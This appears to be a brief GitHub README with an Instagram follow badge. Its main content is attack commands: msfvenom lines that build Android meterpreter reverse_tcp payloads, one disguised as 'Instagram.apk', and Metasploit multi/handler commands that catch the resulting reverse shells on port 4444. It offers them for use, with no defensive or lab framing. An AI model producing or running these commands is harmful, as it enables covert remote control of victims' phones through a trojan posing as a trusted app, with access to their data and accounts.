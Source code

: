 
##  WELCOME 🤗😊
# Instagram account 
👉[![Instagram  ](https://img.shields.io/badge/INSTAGRAM-FOLLOW-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/shubhamg0sain)👈
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.41.217.209 LPORT=4444 R> Instagram.apk














msfvenom -p android/meterpreter/reverse_tcp LHOST=10.41.253.179 LPORT=4444 R> payload.apk


use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 10.41.217.209
set LPORT 4444 
exploit






